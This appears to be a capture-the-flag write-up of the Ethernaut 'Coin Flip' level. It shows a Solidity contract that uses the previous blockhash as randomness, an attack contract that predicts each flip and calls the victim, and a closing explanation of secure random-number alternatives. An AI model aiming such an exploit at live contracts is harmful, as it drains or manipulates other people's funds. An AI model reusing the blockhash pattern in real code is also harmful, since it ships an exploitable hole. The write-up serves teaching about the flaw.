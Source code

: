 3.Coin Flip  
 *Filiping => used for emphasis or to express mild annoyance.
 *consective => following each other continuously.

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

  Things that might help

See the Help page above, section "Beyond the console"

/CoinFlip.sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1))); //global function and global variable 
https://docs.soliditylang.org/en/latest/units-and-global-variables.html?highlight=block#block-and-transaction-properties
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}


/CoinFlipAttack.sol 

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./CoinFlip.sol";

contract CoinFlipAttack {

  CoinFlip public victimContract;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _victimContractAddr) public {
    victimContract = CoinFlip(_victimContractAddr);
  }

  function flip() public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));
    uint256 coinFlip = uint256(blockValue/FACTOR);
    bool side = coinFlip == 1 ? true : false;
    victimContract.flip(side);
  }
}

Level completed!
Difficulty 3/10

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).
















